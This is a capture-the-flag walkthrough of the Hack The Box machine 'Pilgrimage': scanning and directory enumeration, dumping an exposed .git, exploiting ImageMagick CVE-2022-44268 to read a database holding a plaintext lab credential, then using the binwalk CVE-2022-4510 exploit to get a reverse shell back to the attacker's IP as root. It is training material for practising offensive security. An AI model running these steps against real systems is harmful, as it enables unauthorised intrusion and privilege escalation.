# [Pilgrimage](https://app.hackthebox.com/machines/Pilgrimage)

```bash
nmap -p- --min-rate 10000 10.10.11.219 -Pn
```




After detection of open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.219 -Pn  
```




From nmap scan result, I see that it resolves into `pilgrimage.htb`, that's why let's add into `/etc/hosts` file.





Let's do directory enumeration.

```bash
ffuf -u http://pilgrimage.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc all -c -r -sf -ac -o dir_ffuf.txt
```



Let's dump all `.git` directory via [git-dumper](https://github.com/arthaud/git-dumper)

```bash
git-dumper http://pilgrimage.htb/.git/ pilgrimage_git
```



By looking at `index.php` file, I see that `magick` software is used to shorten the length of files.


I searched publicly known exploit for this version of software.


That's [CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268)


From `login.php` file of application, I see that credentials are located in `/var/db/pilgrimage`, that's why let's dump these file by using above exploit.






We found credentials of `emily` user.

emily: abigchonkyboi123


Let's connect into machine via `ssh`

user.txt




This user cannot run `sudo -l`, let's upload `pspy64` into machine to see background jobs.

1.First, let's open http server.
```bash
python3 -m http.server --bind 10.10.14.2 8080
```


2.Let's download this binary from out http server via `wget` binary.
```bash
wget http://10.10.14.2:8080/pspy64
```



Let's run this binary to see results.




I see that there's bash script is running called `malwarescan.sh`, let's read content of this script.



I see that there's `binwalk` command is executed, let's search publicly known exploit for below version of `binwalk`.



That's [CVE-2022-4510](https://www.exploit-db.com/exploits/51249).

I found [exploit](https://github.com/adhikara13/CVE-2022-4510-WalkingPath)

```bash
python3 walkingpath.py reverse input.png 10.10.14.2 1337
```

After this we need see malicious `.png` file called `binwalk_exploit.png`. And we need to copy this malicious image into `/var/www/pilgrimage.htb/shrunk/`.




After this I got shell from port `1337`.

root.txt

